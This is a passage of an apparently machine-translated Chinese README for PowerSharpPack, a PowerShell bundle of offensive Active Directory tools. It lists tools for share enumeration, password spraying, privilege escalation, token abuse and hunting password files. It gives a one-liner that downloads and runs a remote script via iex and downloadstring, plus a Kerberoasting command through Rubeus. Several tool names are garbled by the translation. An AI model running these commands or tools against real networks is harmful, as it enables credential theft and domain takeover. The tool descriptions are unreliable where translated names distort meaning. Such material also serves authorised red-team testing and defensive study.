 @ Credit to:[https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)&&[https://github.com/gentilkiwi/mimikatz/](https://github.com/gentilkiwi/mimikatz/)

*   **shares**

枚举当前域中的所有网络共享。此外，还可以将名称解析为 IP 地址。

@ Credit to:[https://github.com/djhohnstein/SharpShares](https://github.com/djhohnstein/SharpShares)

*   **锐利者**

通过用户名和登录 IP 地址在 active directory 中查找特定用户

@ Credit to:[https://github.com/HunnicCyber/SharpSniper](https://github.com/HunnicCyber/SharpSniper)

*   **尖锐的祈祷**

SharpSpray 一个简单的代码集，使用 LDAP 对一个域的所有用户执行密码喷射攻击，与 Cobalt Strike 兼容。

@ Credit to:[https://github.com/jnqpblc/SharpSpray](https://github.com/jnqpblc/SharpSpray)

*   **沃森**

列举缺失的 kb，并建议利用有用的权限提升漏洞

@ Credit to:[https://github.com/rasta-mouse/Watson](https://github.com/rasta-mouse/Watson)

*   **分组 2**

查找 AD 组策略中的漏洞

@ Credit to:[https://github.com/l0ss/Grouper2](https://github.com/l0ss/Grouper2)

*   **记号赋予器**

使用 Windows 令牌提升权限的工具

@ Credit to:[https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)

*   **蜥蜴眼**

搜索工具，用于查找包含特定单词的特定文件，即包含密码的文件。

@ Credit to:[https://github.com/vivami/SauronEye](https://github.com/vivami/SauronEye)

*   只需加载主脚本

`**iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpPack.ps1')**`

*   并选择工具作为开关参数，例如:

`**PowerSharpPack -seatbelt -Command "AMSIProviders"**`

如果你想给二进制文件传递多个参数，你可以使用引号，比如:

`**PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"**`

如果您出于某种原因不想加载所有二进制文件，您可以使用位于 PowerSharpBinaries 文件夹中的每二进制 Powershell 脚本。

也可作为独立 powershell 脚本使用的项目:

*   **夏普云**
